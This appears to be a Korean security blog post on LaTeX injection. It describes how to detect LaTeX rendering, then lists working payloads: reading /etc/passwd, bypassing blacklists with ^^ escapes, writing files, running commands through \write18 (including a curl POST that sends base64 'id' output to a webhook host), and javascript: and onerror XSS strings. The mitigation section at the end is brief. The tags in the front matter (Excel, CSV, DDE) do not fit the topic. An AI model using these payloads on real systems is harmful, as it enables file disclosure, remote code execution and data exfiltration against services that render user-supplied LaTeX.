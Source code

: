 ```yaml
---
layout: post
title: LaTeX Injection
subtitle: 2년동안 딱 한번 본 케이스....
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - Excel
  - CSV
  - DDE
  - Formula_Injection
sidebar:
---
```

## Intro
$ \LaTeX 란 주로 자연과학 혹은 수리 영역 논문에 사용되는 문서 작성 도구의 일종으로 $ \TeX 문법을 쉽게 사용하기 위해 만든 메크로 모음집이다.   

스크립트 기능이 강하기 때문에 RCE, XSS 등의 공격이 가능하여 위험도는 매우 높습니다.   
## Detect & Exploit 
### Detect
아래 사진과 같은 수식들이 보인다면 $ \LaTeX 문법을 사용하고 있을 가능성이 큽니다.  
![](/assets/images/posts/2024-12-05-LaTeX-Injection/LaTeXInjection_Exam.png)
### Exploit
#### Read File
```tex
\input{/etc/passwd}
\include{somefile} # load .tex file (somefile.tex)
```   

```tex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```   
```tex
\lstinputlisting{/etc/passwd}
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```   

```tex
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```
#### Bypass Blacklist 
- ^^41 == A
- ^^7e == ~
```tex
\lstin^^70utlisting{/etc/passwd}
```   
#### Write File
```tex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\write\outfile{Line 2}
\write\outfile{I like trains}
\closeout\outfile
```   
#### Command Execution

```tex
\immediate\write18{id > output}
\input{output}
```   

```tex
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```   

```tex
\input|ls|base64
\input{|"/bin/hostname"}
```   

```tex
\immediate/write18{curl https://webhook -X POST -d a=$(id|base64)}
```   
#### Cross Site Scripting
```tex
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```   

```tex
\unicode{<img src=1 onerror="<ARBITRARY_JS_CODE>">}
```   
## Security Measures
사용자 입력 값이 LaTeX에 영향이 가지 않도록 하거나, 서비스 특성상
사용자가 스스로 LaTeX 문법을 이용하여 작성해야 한다면, 공격 가능한 패키지들을 포함시키지 않거나, LaTeX 문법을 실행시키는 `\`,`$` 과 같은 특수문자를 필터링해야 합니다.   
## References
[mathjax](https://docs.mathjax.org/en/latest/input/tex/extensions/autoload.html#autoload-options)   
[LaTeX Payload](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)   
[hahwul](https://www.hahwul.com/cullinan/latex-injection/)   